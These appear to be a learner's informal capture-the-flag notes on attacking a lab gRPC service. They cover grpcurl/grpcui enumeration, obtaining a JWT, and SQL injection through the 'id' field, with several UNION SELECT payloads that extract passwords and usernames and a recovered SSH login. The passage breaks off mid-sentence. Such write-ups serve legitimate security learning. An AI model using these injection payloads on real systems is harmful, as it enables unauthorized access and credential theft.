 	```
	On the gprcui is more easy to make te request and responses, I don't know the how to make the pettitions on json... I will stop here ... I will go to the GUI
	
	```c
	./grpcurl -plaintext -format text -d {"name":"test","password":"test"};\ 10.10.11.214:50051 SimpleApp.RegisterUser 
	```
	
	
	
	The ui app is called on this way (obviously, first install it)
	```c
	┌──(cds㉿kali)-[~/Downloads]
	└─$ grpcui --plaintext 10.10.11.214:50051 
	```
	
	
	In the UI website we added a user called "test1" and the password was "test1"
	
	When we log in the app gives us a token, in this case this is the mine
	
	```
	|token|b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdDEiLCJleHAiOjE2OTM5Mzg5NDh9.Kj4tce0D21KJ8kIq5L9vG9GioVHUWe-5VrSDsJ9mTOA'|
	```
	Now, we have to intercept this petition on burpsuit, we must add this token.  And im reading over there that this field "id" is "vulnerable to sqli" so, on this way i can have a user for ssh connection , called "sau" and the pass is "password". 
	
	So, I have todo a SQLI 
	
	![[Screenshot_2023-09-05_12_26_28.png]]
	This is the vulnerable place
	
	this is the command that you must use 
	```
	"id":"0 UNION SELECT GROUP_CONCAT(password) from accounts"
	```
	HOW THE HELL IS THIS INJECTION ??
	
	This was another valid one
	```
	"729 union SELECT username FROM accounts WHERE username NOT like 'sqlite_%' limit 1--"
	```
	And another one 
	```
	"id": "729 union SELECT username FROM accounts LIMIT 1 OFFSET 1;"
	```
	
	
	
	
	This is the response.. but how do I know if its ok or not ...
	
	![[Screenshot_2023-09-05_12_47_59.png]]
	
	Ok , learning a little bit, on this injection I just have to put something like this
	